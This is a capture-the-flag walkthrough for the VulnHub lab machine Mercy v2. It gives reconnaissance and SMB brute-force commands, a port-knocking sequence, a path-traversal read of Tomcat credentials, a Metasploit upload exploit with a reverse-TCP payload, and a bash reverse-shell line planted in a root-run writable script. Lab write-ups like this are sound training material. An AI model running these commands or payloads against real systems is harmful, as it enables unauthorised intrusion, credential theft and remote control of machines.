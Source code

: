 
# Digital.World.Mercy v2 Walkthrough

**VulnHub Link:** [Mercy v2](https://www.vulnhub.com/entry/digitalworldlocal-mercy-v2,263/)
**Difficulty:** Easy to Medium
**Release Date:** 28 Dec 2018


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.127 


## 2.Enumeration

enum4linux 192.168.100.127

smbmap -H '192.168.100.127' -u '' -p ''

hydra 192.168.100.127 -L VirtualBox\ VMs/Mercy\ v2/ctf/usernames.txt -p 'password' smb -s 139

smbclient //192.168.100.127/qiu -U "qiu"

"""
[openHTTP]
	sequence    = 159,27391,4
	seq_timeout = 100
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
	tcpflags    = syn

[closeHTTP]
	sequence    = 4,27391,159
	seq_timeout = 100
	command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
	tcpflags    = syn

[openSSH]
	sequence    = 17301,28504,9999
	seq_timeout = 100
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn

[closeSSH]
	sequence    = 9999,28504,17301
	seq_timeout = 100
	command     = /sbin/iptables -D iNPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn
"""


knock 192.168.100.127 159 27391 4 -v
knock 192.168.100.127 17301 28504 9999 -v


http://192.168.100.127/ ---> RIPS service running 

http://ip/nomercy/windows/code.php?file=../../../../../../../etc/tomcat7/tomcat-users.xml

To Access tomcat7 server ---> msfconsole tool can be used.


## 3.Explotation

>>>msfconsole -q
>>>use tomcat_mgr_upload
>>>setting --> rhosts,rport(8080),httppassword(heartbreakisinevitable),httpusername(thisisasuperduperlonguser),lhost(wlan0 or eth0)
>>>set target 2
>>>set payload payload/linux/x86/shell_reverse_tcp

Gaining a shell --> escalating to user fluffy:freakishfluffybunny


## 4.Privilege Escalation

--- /home/fluffy/.private/secrets/timeclock

This file canbe written by anynone and has root perms.

echo "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1" >> timeclock

It is recommended that always listen before configuring reverse shell

and BINGO!! Root shell opened and Root flag captured
